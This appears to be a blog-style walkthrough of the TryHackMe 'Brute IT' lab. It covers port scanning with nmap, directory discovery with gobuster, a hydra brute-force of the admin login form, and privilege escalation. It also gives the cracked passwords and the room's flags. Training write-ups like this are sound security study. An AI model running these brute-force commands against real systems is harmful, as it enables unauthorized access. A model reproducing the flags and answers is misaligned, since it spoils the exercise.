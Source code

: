 ```yaml
---
timeToRead: 0
authors: []
title: ''
excerpt: ''
date: 
hero: ''

---
```

---
title: "Brute IT - TryHackMe"
date: 2022-25-04
hero: "/images/hero-3.jpg"
excerpt: "Learn how to brute, hash cracking and escalate privileges in this box!"
timeToRead: 4
authors:
  - Zidan
---

[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```bash
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```

![./images/Untitled.png](./images/Untitled.png)

```bash
2 ports are open.
```

### What version of SSH is running?

```bash
OpenSSH 7.6p1
```

![./images/Untitled1.png](./images/Untitled1.png)

### What version of Apache is running?

```bash
2.4.29
```

![./images/Untitled2.png](./images/Untitled2.png)

### Which Linux distribution is running?

```bash
ubuntu
```

![./images/Untitled3.png](./images/Untitled3.png)

### Search for hidden directories on web server, what is the hidden directory?

```bash
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```

![./images/Untitled4.png](./images/Untitled4.png)

```bash
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?

![./images/Untitled5.png](./images/Untitled5.png)

As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message

![./images/Untitled6.png](./images/Untitled6.png)

```bash
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![./images/Untitled7.png](./images/Untitled7.png)

```bash
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?

![./images/Untitled8.png](./images/Untitled8.png)

```bash
# Password for the private key is
rockinroll
```

### user.txt

```bash
THM{a_password_is_not_a_barrier}
```

![./images/Untitled9.png](./images/Untitled9.png)

### Web flag

![./images/Untitled10.png](./images/Untitled10.png)

```bash
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```bash
# Password for the root user
football
```

![./images/Untitled11.png](./images/Untitled11.png)

### Root.txt

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

![./images/Untitled12.png](./images/Untitled12.png)

